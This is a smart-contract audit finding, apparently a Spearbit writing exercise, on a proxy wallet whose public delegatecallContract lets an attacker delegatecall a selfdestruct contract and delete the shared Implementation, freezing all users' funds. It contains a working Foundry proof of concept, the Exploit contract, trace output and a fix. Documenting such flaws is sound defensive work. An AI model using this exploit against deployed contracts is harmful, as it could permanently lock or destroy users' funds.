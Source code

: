 # Spearbit Writing Exercise

## Wallet Protocol Business Requirments

You are given an implementation for a smart contract wallet. There are two contracts

1. [`Implementation.sol`](contracts/Implementation.sol): Deployed once and used as implementation contract in `Proxy.sol`.
2. [`Proxy.sol`](contracts/Proxy.sol): Each user has a unique `Proxy` deployment with the above implementation. This is a simply proxy contract which delegatecalls the implementation contract. It has an access control check that allows only the owner to use the fallback function.

The idea is that users can keep their funds, for example, ETH or ERC20 tokens in the Proxy. To use these funds, users can execute arbitrary calls and arbitrary delegatecalls by using the implementation contract (it has `callContract` and `delegatecallContract`). The implementation contract is deployed only once and reused to save gas.

## Implementation deletion causes DoS of users proxy contracts

**Severity:** Critical

**Impact:** 
An attacker could delete the `Implementation` contract deployed for user proxy contracts. All users funds deposited to their `Proxy` contracts could be stuck forever without any option to withdraw.

**Context:** [Implementation.sol#L9-L22](https://github.com/shabarkin/writing-exercise/blob/develop/src/Implementation.sol#L9-L22)

While reviewing the `Proxy` and `Implementation` smart contracts I have observed that `Implementation` contract is defined as a normal deployable smart contract, this allows an attacker to cause the denial of service (DoS) attack for all users of `Proxy` contract.
By application business requirment users should have ability to execute arbitrary `call` and arbitrary `delegatecall` functions by using their `Implementation` contract, however the current architecture implementation has a side affect.

The `delegatecall` function preserves the state of the calling smart contract, but executes logic of the called smart contract/library. In this architecture the `Implementation` smart contract is deployed as independent smart contract, what means that anyone within the Ethereum network could invoke their functions. 

By deploying the malicious smart contract with a function, which defines `selfdestruct` operation, allows an attacker to "selfdelete" the `Implementation` contract. This may happen, because `Implementation.delegatecallContract` function uses `delegatecall` operation on the arbitrary address and arbitrary calldata. It will execute the logic of malicious function within the state of the `Implementation` contract, what means that the `selfdectruct` operation will be executed within the state of `Implementation` contract. 

The DoS attack is achieved, because there will be no way to update the address of `Implementation` of `Proxy` contract or to withdraw user funds. Upon deletion of `Implementation` contract, all users funds holded within Proxy contracts will be stuck there forever.

The development and test running were completed with [Foundry](https://book.getfoundry.sh/) framework.


Example of code snippet for the main exploitation business logic: 
```solidity
// Proxy and Implementation contracts deployment
impl = new Implementation();
proxy = new Proxy(address(impl), deployer);

// send funds to deployer account
(bool success,) = deployer.call{value: 1000 ether}("");
if (!success){
    revert("funds are not deposited");
}

// Exploit contract deployment
vm.startPrank(attacker);
exploit = new Exploit();
vm.stopPrank();

// critical: The implementation deletion
vm.startPrank(attacker);

// pack calldata for Exploit contract
bytes memory _calldataExploit = abi.encodeWithSelector(exploit.destroy.selector, attacker);
// delete implementation contract through delegate call on the `selfdestruct`
impl.delegatecallContract(address(exploit), _calldataExploit);

vm.stopPrank();
 ```
 
Example of the check to determine existance of a contract:
 ```solidity
 function _checkContractExistance(address _contract) private view returns (bool){
    uint256 size;
    assembly {
        size := extcodesize(_contract)
    }
    return size != 0;
}
 ```

Example of the malicious smart contract:
```solidity
contract Exploit {
    address immutable public owner = address(0x02);
    address public implementation;

    function destroy(address _to) public {
        selfdestruct(payable(_to));
    }
}
```

Download:
```
git clone https://github.com/shabarkin/writing-exercise.git
```

Execute the exploit test with Foundry:

```bash
forge test -vvvvv
```

Console output:
```log
Running 1 test for test/Proxy.t.sol:SpearbitImplementationDestructTest
[PASS] testImplementationDestruct() (gas: 8337)
Logs:
  Implementation contract exists: false

Traces:
  [490544] SpearbitImplementationDestructTest::setUp() 
    ├─ [123771] → new Implementation@0xCe71065D4017F316EC606Fe4422e11eB2c47c246
    │   └─ ← 618 bytes of code
    ├─ [96860] → new Proxy@0x185a4dc360CE69bDCceE33b3784B0282f7961aea
    │   └─ ← 371 bytes of code
    ├─ [3000] PRECOMPILE::ecrecover{value: 1000000000000000000000}() 
    │   └─ ← 
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000002) 
    │   └─ ← ()
    ├─ [55532] → new Exploit@0xE536720791A7DaDBeBdBCD8c8546fb0791a11901
    │   └─ ← 277 bytes of code
    ├─ [0] VM::stopPrank() 
    │   └─ ← ()
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000002) 
    │   └─ ← ()
    ├─ [6233] Implementation::delegatecallContract(Exploit: [0xE536720791A7DaDBeBdBCD8c8546fb0791a11901], 0x00f55d9d0000000000000000000000000000000000000000000000000000000000000002) 
    │   ├─ [5257] Exploit::destroy(0x0000000000000000000000000000000000000002) [delegatecall]
    │   │   └─ ← ()
    │   └─ ← 0x
    ├─ [0] VM::stopPrank() 
    │   └─ ← ()
    └─ ← ()

  [8337] SpearbitImplementationDestructTest::testImplementationDestruct() 
    ├─ [0] console::log(Implementation contract exists: %s, false) [staticcall]
    │   └─ ← ()
    └─ ← ()

Test result: ok. 1 passed; 0 failed; finished in 417.42µs
```


**Recommendation:**
Change the context of `Implementation` smart contract from contract to library. Update their functions by removing the `payable` 
modifier.

```diff
- contract Implementation {
+ library Implementation {

-   function callContract(address a, bytes calldata _calldata) payable external returns (bytes memory) {
+   function callContract(address a, bytes calldata _calldata) external returns (bytes memory) {
        (bool success , bytes memory ret) =  a.call{value: msg.value}(_calldata);
        require(success);
        return ret;
    }

-   function delegatecallContract(address a, bytes calldata _calldata) payable external returns (bytes memory) {
+   function delegatecallContract(address a, bytes calldata _calldata) external returns (bytes memory) {
        (bool success, bytes memory ret) =  a.delegatecall(_calldata);
        require(success);
        return ret;
    }
}
```

**Fix commit:** [87379dc](https://github.com/shabarkin/writing-exercise/commit/87379dc56ce658334e1dd367020aed16e6cdf0d5)
